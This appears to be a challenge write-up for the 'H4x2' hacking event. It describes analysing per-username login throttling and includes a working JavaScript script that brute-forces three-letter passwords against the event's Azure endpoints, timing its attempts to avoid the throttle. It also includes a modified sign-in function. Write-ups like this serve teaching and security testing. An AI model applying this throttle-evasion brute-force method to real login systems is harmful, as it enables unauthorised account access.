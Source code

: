 TLDR: I ran a code to online bruteforce the password

If you played around with the login system, you probably noticed that it stops you from attempting too many times in a row. For those who are new, this throttling mechanism also existed in iteration 1. 
However, this time it's slightly different. In iteration 1, throttling was triggered by the IP address, while this iteration's throttling was based on the username 
(i.e. trying to log in with the same username multiple times triggers the throttle).

I located the code for throttling in H4x2-Node/H4x2-Node/Components/ThrottlingManager.cs:

![throttling_code](diagrams/2.0.png)

It says that the website allows you to send the same username 10 times to the orks before they start throttling you (for 60 seconds initially) 
but in practice, you only get 5 chances. This is probably because  data is sent to the orks twice per authentication (I'm not entirely sure)

So I created a bruteforcing script that tries all the letter combos from AAA -> ZZZ, where it would: try 5 -> wait 60+ seconds -> try the next 5 -> wait 60+ seconds .... as to never trigger the throttle 
doing some quick maths:

there are 26^3 = 17576 letter combinations in total.

if trying 5 passwords takes 63 seconds, trying all 17576 combos would take....

17576 * 63/5 = 221458 seconds = 61.5 hours

so about two days and a half, in the worst case. Fortunately, it finished in about a day and a half

Here's the code I used to brute force:

```
export async function getRandom() {

  var config = {
    simulatorUrl: 'https://h4x22simulator.azurewebsites.net/',
    vendorUrl: 'https://h4x22ork2.azurewebsites.net/'
  }

  const throttleTime = 63
  var count = 0
  const username = 'test'

  for (let i = 0; i < 26; i++) {
    var first = String.fromCharCode(65 + i)
    for (let j = 0; j < 26; j++) {
      var second = String.fromCharCode(65 + j)
      for (let k = 0; k < 26; k++) {
        var third = String.fromCharCode(65 + k)
        const bruteVal = first + second + third

        var signin = new SignIn(config);
        try {
          var decrypted = await signin.start(username, bruteVal, 'https://h4x22vendor.azurewebsites.net/')
          console.log(bruteVal, ":", decrypted);
          alert(bruteVal + ": " + decrypted);
          return
        }
        catch {
          console.log(bruteVal, ": null")
        }

        count += 1;
        if (count == 5) {     // throttle triggers at 6 sign-ins in a row. After 5 sign-ins, wait for a minute to cool down 
          wait(throttleTime)
          count = 0;
        }
      }
    }
  }
}

function wait(s) {
  var start = new Date().getTime();
  var end = start;
  while (end < start + s * 1000) {
    end = new Date().getTime();
  }
}
```

and since I am running this code on a locally hosted client, I slightly modified the signin.start() function in SignIn.js to take one more argument, the real vendor url (rather than the local one). 

```
    /**
     * Authenticates a user to the ORKs and decrypts their encrypted secret held by vendor.
     * @param {string} username 
     * @param {string} password 
     * @returns {Promise<string>}
     */
    async start(username, password, vendorUrl) {    <------added vendorUrl as an argument
        //hash username
        const uid = Bytes2Hex(await SHA256_Digest(username)).toString();
        //convert password to point
        const passwordPoint = (await Point.fromString(password));

        // get ork urls
        const simClient = new SimulatorClient(this.simulatorUrl);
        const orkInfo = await simClient.GetUserORKs(uid);
        // console.log("orkInfo", orkInfo)

        const prismFlow = new PrismFlow(orkInfo);
        const CVK = await prismFlow.Authenticate(uid, passwordPoint);

        const vendorClient = new VendorClient(vendorUrl, uid);
        const encryptedCode = await vendorClient.GetUserCode();
        console.log("encryptedCode", encryptedCode)

        return await decryptData(encryptedCode, BigIntToByteArray(CVK));
    }
```
